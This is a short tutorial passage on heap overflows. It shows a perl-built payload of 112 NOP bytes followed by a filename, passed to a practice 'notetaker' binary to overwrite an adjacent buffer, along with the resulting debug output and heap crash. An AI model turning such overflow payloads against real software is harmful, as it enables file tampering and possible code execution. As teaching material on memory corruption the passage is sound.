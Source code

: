 Heap overflows are very similar to buffer overflows with a few differences.
- Mainly, they are dangerous to the variables after them in the code, and not before them.
- They also aren’t standardized and usually cause issues because they cause a logical error.

So if we have a program, where there is an overflowable buffer, let’s call it `buffer1` and another, nonoverflowable buffer (`filename`), that is responsible for storing a file to write to, this can be abused.

```bash
❯ ./notetaker $(perl -e 'print "\x90"x112 . "testfile"')
[DEBUG] buffer   @ 0x5655a1a0: 'testfile'
[DEBUG] datafile @ 0x5655a210: 'testfile'
[DEBUG] file descriptor is 3
Note has been saved.
double free or corruption (out)
[1]    14367 IOT instruction (core dumped)  ./notetaker $(perl -e 'print "\x90"x112 . "testfile"')
```

